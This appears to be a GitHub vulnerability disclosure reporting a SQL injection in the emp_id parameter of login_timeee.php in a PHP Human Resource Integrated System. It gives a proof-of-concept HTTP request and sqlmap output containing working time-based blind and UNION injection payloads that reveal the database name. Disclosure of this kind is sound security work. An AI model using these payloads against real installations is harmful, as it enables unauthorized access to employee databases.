


# Human Resource Integrated System has SQL Injection in login_timeee.php

## supplier 

https://code-projects.org/human-resource-integrated-system-in-php-with-source-code/

## Vulnerability file

In the `login_timeee.php` file of the Human Resource Integrated System, there is no filtering when obtaining the `emp_id` parameter and executing the SQL statement, resulting in a SQL injection vulnerability.

 

## POC

```
GET login_timeee.php?emp_id=1*
 HTTP/1.1
Host: hris
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

The results of SQLmap are as follows:

```
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: emp_id=(CASE WHEN (4083=4083) THEN SLEEP(5) ELSE 4083 END)

    Type: UNION query
    Title: Generic UNION query (random number) - 14 columns
    Payload: emp_id=-7715 UNION ALL SELECT 4884,4884,4884,4884,4884,4884,4884,4884,4884,CONCAT(0x7162626271,0x5a7569474a5246584a504a5272696d52717073764362426e6f4a467652414f4c4e557179587a7777,0x71716b7a71),4884,4884,4884,4884-- -
```

Get database: `hrms_db`



